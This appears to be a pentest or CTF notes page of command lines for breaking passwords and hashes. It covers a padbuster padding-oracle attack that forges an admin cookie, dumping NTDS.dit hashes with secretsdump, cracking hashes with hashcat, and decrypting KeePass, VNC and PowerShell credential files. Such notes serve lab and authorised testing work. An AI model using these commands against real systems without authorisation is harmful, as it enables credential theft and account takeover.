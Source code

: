 # Passwords and hashes
Ways to break password hashes, or just methods to make the brute-force easier.

# Adding salt (as a normal string) to a password file
This is if the password has no salt shown, because it has been concatenated when encrypting, therefore the salt has to be added to the dictionary, line-by-line.
```bash
sed -e 's/^/prefix/' <file> > <file.new>
```


# Cewl
Cewl can be used on a webpage, and if one suspects that a password is hidden somewhere in the website.
[https://www.kali.org/tools/cewl/](https://www.kali.org/tools/cewl/)

## Usage
```bash
cewl -w <wordlist> -d 10 -m 1 <url>
```


# Padding oracle attack
```bash
# Decrypt
padbuster <url> "cookie" 8 -encoding 0 -cookies "cookiename=cookie"

# Encrypt new cookie
padbuster <url> "old_cookie" 8 -encoding 0 -cookies "auth=old_cookie" -plaintext "user=admin"
```

### Reference
- [https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv)


# Powershell credentials file
The command below can be used to decrypt a given credentials file. **(has to be logged in as the user)**
```powershell
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```

# VNC passwords
[https://github.com/trinitronx/vncpasswd.py](https://github.com/trinitronx/vncpasswd.py)     
Use the tool above to decrypt a VNC password hash
```bash
python vncpasswd.py -d -f <hashfile>
```

# KeePass (jenkins) & kdbx files
1.  Use `keepass2john` to make the file into a hash.
2. Crack the hash file (from step 1) with hashcat, this will give you the **master password**    
    ```bash
    hashcat.bin CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
    ```
3. Use `kpcli` to extract passwords: 
    ```bash
    kpcli --kdb <file>.kdbx
    ```
4. Run, `find .` in `kpcl`i will list all of the passwords
5. `show -f [num]` will print a password based on the number that was input 

# .dit and .bin files
**.dit** files contain password hashes     
**.bin** files contain information about the system

## Dump hashes
Assuming these files are on your local machine already.  
- Dump hashes  
    ```bash
    secretsdump.py -ntds <.dit file> -system <.bin file> LOCAL
    ```
- Crack the hashes
    ```bash
    # MD5
    hashcat -m 0 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    # NTLM
    hashcat -m 1000 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    ```

### Troubleshooting
#### If hashcat cannot crack the hashes
Try [crackstation](https://crackstation.net/), the hash might already be in their system.

### References
- [https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes](https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes)
- [https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html)